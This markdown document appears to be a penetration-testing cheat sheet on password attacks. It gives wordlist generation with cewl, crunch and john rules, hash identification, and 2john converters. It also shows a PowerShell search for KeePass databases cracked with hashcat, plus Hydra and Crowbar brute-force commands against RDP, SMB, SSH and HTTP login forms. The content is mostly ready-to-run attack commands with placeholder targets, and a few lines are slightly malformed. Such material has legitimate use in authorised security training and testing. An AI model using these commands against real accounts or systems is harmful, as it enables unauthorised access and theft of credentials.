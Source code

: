 # Password Attacks Checklist
<!--- Status 90% --->

## Introduction

This runbook provides a guide to help with password attacks. It includes a variety of techniques and tools for trying to generate word list, crack passwords, and dumping passwords or hashes from the operating system.

## Table of Contents

- [Password Attacks Checklist](#password-attacks-checklist)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [Generate World list](#generate-world-list)
    - [Rules](#rules)
  - [Cracking Password](#cracking-password)
    - [Identifying Hash Type](#identifying-hash-type)
    - [Hashing different file types for cracking with 2john](#hashing-different-file-types-for-cracking-with-2john)
  - [Brute Force Attacks](#brute-force-attacks)
    - [Password Manager](#password-manager)
    - [Hydra](#hydra)
    - [RDP - Crowbar](#rdp---crowbar)
    - [SMB - Hydra](#smb---hydra)
    - [SSH - Hydra](#ssh---hydra)
    - [HTTP POST Login Form - Hydra](#http-post-login-form---hydra)
    - [HTTP GET Login Form - Hydra](#http-get-login-form---hydra)

## Generate World list

Generating wordlist based on information from a website

```sh
cewl <domain> -w wordlist.txt
```

Using Crunch:
`@ = Lower case alpha characters`
`, = Upper case alpha characters`  
`% = Numeric characters`  
`^ = Special characters including space`
crunch min-len max-len charset

```sh
crunch 12 12 baseword@,%^ >> wordlist.txt
```

### Rules

Add the rules you want in the /etc/john/john.conf file inside the rules module [List.Rules:Wordlist] to modify your wordlists  
basic rule example `$@$[1-2]$[0-9]$[0-9]$[0-9]`

```sh
john --wordlist=wordlist.txt --rules --stdout > mutated.txt
```

## Cracking Password

### Identifying Hash Type

```sh
hashid <hash>
```

### Hashing different file types for cracking with 2john

- [ssh2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/ssh2john.c)  
- [rar2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/rar2john.c)  
- [zip2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c)  
- [keepass2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keepass2john.c)  
- [office2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/office2john.c)  
- [pdf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pdf2john.c)  
- [pwsafe2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pwsafe2john.c)  
- [racf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/racf2john.c)  
- [vncpcap2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/vncpcap2john.cpp)  
- [hccap2jjohn](https://github.com/piyushcse29/john-the-ripper/blob/master/src/hccap2john.c)  
- [keychain2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keychain2john.c)  
- [mozilla2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/mozilla2john.c) 

## Brute Force Attacks

### Password Manager

- Search KeePass database files

```sh
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

- Hashing the .kdbx file

```sh
keepass2john Database.kdbx > keepass.hash   
```

- Finding Hash-Mode ID of hashcat

```sh
hashcat --help | grep -i "KeePass"
```

  Cracking
```sh
hashcat -m 13400 keepass.hash
```

### Hydra

```sh
hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>
```

### RDP - Crowbar

```sh
crowbar -b rdp -s X.X.X.X/32 -u admin -C /usr/share/wordlists/rockyou.txt -n 1
```

### SMB - Hydra

```sh
hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb
```

### SSH - Hydra

```sh
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

### HTTP POST Login Form - Hydra

```sh
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f
```

### HTTP GET Login Form - Hydra

```sh
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login
```

 <!--- Last Updated July 8, 2024 But still needs work --->